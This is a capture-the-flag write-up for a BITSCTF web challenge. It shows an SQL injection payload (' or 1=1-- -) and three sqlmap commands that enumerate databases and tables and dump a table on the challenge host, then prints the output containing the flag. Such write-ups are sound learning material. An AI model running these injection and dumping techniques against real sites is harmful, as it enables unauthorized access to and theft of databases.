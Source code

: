 # Web 30: Batman vs Joker

**Description:**

Joker has left a message for you. Your job is to get to the message asap.

`joking.bitsctf.bits-quark.org`

# Writeup

Opening the website, we can fill in a field. Fiddling around with the values I noticed they were numerical:

![1](files/1.png?raw=true)

Next sqli 101 `' or 1=1-- -`:

![2](files/2.png?raw=true)

Unfortunately it didn't give us the flag. I decided to use sqlmap. First I had to enumerate the dbs:

```
sqlmap --url 'http://joking.bitsctf.bits-quark.org/index.php' --method post --data 'submit1=submit&id=1' -p id --dbms mysql -dbs
```

Then I had to enumerate the tables from the `hack` db:

```
sqlmap --url 'http://joking.bitsctf.bits-quark.org/index.php' --method post --data 'submit1=submit&id=1' -p id --dbms mysql -D hack --tables
```

Finally I could dump the table I needed:

```
sqlmap --url 'http://joking.bitsctf.bits-quark.org/index.php' --method post --data 'submit1=submit&id=1' -p id --dbms mysql -D hack -T Joker --dump

*** output omitted ***

Database: hack
Table: Joker
[1 entry]
+----------------------------------------------------------+-----------------------------+
| Flag                                                     | HaHaHa                      |
+----------------------------------------------------------+-----------------------------+
| BITSCTF{wh4t_d03snt_k1ll_y0u_s1mply_m4k3s_y0u_str4ng3r!} | Enjoying the game Batman!!! |
+----------------------------------------------------------+-----------------------------+
```

We got the flag!